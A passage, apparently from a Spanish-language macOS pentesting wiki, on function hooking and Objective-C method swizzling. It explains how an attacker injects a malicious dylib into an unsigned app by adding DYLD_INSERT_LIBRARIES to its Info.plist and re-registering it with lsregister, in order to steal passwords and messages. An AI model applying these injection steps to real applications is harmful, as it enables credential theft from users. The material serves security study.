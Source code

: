 ```objectivec

// Swap the implementations
// It return the now overwritten implementation of the original method to store it
original_substringFromIndex = method_setImplementation(originalMethod, swizzledIMP);

// Example usage
NSString *myString = @"Hello, World!";
NSString *subString = [myString substringFromIndex:7];
NSLog(@"Substring: %@", subString);

// Set the original implementation back
method_setImplementation(originalMethod, original_substringFromIndex);

return 0;
}
}
```
## Metodología de Ataque por Hooking

En esta página se discutieron diferentes formas de enganchar funciones. Sin embargo, implicaron **ejecutar código dentro del proceso para atacar**.

Para hacer eso, la técnica más fácil de usar es inyectar un [Dyld a través de variables de entorno o secuestro](macos-library-injection/macos-dyld-hijacking-and-dyld_insert_libraries.md). Sin embargo, supongo que esto también podría hacerse a través de [inyección de procesos Dylib](macos-ipc-inter-process-communication/index.html#dylib-process-injection-via-task-port).

Sin embargo, ambas opciones están **limitadas** a binarios/procesos **no protegidos**. Consulta cada técnica para aprender más sobre las limitaciones.

Sin embargo, un ataque de hooking de funciones es muy específico, un atacante hará esto para **robar información sensible desde dentro de un proceso** (si no, simplemente harías un ataque de inyección de procesos). Y esta información sensible podría estar ubicada en aplicaciones descargadas por el usuario, como MacPass.

Así que el vector del atacante sería encontrar una vulnerabilidad o eliminar la firma de la aplicación, inyectar la variable de entorno **`DYLD_INSERT_LIBRARIES`** a través del Info.plist de la aplicación añadiendo algo como:
```xml
<key>LSEnvironment</key>
<dict>
<key>DYLD_INSERT_LIBRARIES</key>
<string>/Applications/Application.app/Contents/malicious.dylib</string>
</dict>
```
y luego **re-registrar** la aplicación:
```bash
/System/Library/Frameworks/CoreServices.framework/Frameworks/LaunchServices.framework/Support/lsregister -f /Applications/Application.app
```
Agrega en esa biblioteca el código de hooking para exfiltrar la información: Contraseñas, mensajes...
